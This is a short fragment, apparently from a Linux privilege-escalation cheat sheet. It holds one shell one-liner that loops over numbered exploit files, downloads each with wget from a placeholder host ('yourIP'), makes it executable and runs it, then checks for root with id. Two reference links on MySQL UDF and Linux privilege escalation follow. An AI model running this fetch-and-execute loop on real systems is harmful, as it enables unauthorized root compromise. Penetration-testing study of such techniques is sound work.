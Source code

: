 > $ for a in 9352 9513 33321 15774 15150 15944 9543 33322 9545 25288 40838 40616 40611 ; do wget http://yourIP:8000/$a; chmod +x $a; ./$a; id; done













[https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/]: https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
[https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562]: https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562
